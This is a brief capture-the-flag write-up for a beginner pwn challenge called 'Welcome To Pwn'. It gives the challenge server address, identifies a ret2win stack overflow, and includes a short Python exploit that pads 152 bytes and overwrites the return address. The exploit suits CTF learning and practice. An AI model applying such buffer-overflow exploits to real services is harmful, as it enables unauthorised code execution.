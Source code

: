## Welcome To Pwn (457pt)				

### Description

> Welcome to pwn, here is an easy challenge to get you started. 
>
> nc 35.238.225.156 1001 
>
> Author: Viper_S


### Attachment

[welcome](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/boot2root/pwn/welcome/welcome)

### Analysis

ret2win

### Solution

```python
offset = 152
payload = 'A'*offset
payload += p64(0x00401186)
sl(payload)
p.interactive()
```


### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/boot2root/pwn/welcome) 


